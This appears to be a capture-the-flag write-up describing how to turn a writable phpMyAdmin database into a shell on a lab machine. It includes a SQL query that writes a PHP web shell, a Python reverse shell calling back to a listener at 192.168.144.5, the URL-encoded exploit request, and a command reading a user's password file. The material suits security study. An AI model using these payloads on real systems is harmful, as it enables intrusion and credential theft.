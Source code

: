 # EXPLOIT 7: FROM WEBSERVER TO SHELL

There's yet another way to exploit the *phpMyAdmin* database. Let's dive into it!

## Reverse shell

To establish a *Reverse Shell*, we first need a listener on our machine. For this, we can use `netcat` to handle the task.

```sh
nc -lvp 4242
```

Next, we need to create a shell payload that will help with establishing a connection with the target machine. We'll upload this payload using the same method as in previous exploits. By replicating the query from [writeup1](../writeup1.md), we can generate a PHP script that can execute shell commands.

```SQL
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/reverse_shell.php"
```

We will then use the PHP script to execute a Python script that will establish a reverse connection to our machine and create a shell session that allows us to execute commands remotely.

```Python
import socket,subprocess,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.47",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=pty.spawn("/bin/bash")
```

However, we need to convert the script into a single line since it will be entered directly into the URL.

```
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.144.5",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/bash");'
```

Additionally, we need to [URL-encode](https://www.urlencoder.org) the script since certain characters cannot be used directly in the URL. This results in the following URL:

```
https://192.168.144.3/forum/templates_c/reverse_shell.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.144.5%22%2C4242%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27
```

Finally, by navigating to this page, we establish a connection to the target machine's shell session via *netcat*, allowing us to retrieve the password for the *lmezard* user.

```sh
cat /home/LOOKATME/password
```

From there, continue at **Exploiting lmezard** in [writeup1](../writeup1.md).